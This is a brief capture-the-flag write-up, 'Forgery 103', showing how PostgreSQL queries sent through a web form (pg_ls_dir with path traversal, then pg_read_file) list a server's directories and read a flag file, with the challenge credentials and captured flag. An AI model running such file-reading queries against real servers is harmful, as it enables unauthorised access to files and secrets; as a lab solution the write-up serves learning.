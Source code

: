 # Forgery 103

If we look at:    
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-file-manipulation

We can see that we can use something like ``select pg_ls_dir('./');`` to check the contents of the remote server and we do get a result that means that we can go back + from the previous challenge we know we are in ``file:////var/www/html/database/index.php`` or something like that so we just need to send:

``user=postgres&password=Let%26me%3Din&query=select pg_ls_dir('../../../../../');``

And we see that the flag is written in a .txt file therefore we can also use this to open it:   
``user=postgres&password=Let%26me%3Din&query=select pg_read_file('../../../../../flag_is_in_here_af0d37cc7402f7d3da88033562.txt');``

``FLAG-95z9hr9gRHTfg6J22GSBtu9jTXrg4FQB``
